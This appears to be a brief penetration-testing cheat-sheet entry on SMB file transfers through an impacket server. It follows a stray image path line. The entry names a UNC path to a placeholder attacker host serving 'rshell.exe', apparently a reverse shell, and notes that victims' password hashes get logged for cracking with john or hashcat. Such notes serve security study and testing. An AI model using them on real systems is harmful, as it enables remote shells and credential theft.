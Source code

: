 # SMB Transfers (impacket server)

* directly use UNC paths, ex: \\<lhost>\F\rshell.exe
* the user's hash will be logged via impacket (feed to john/hashcat)
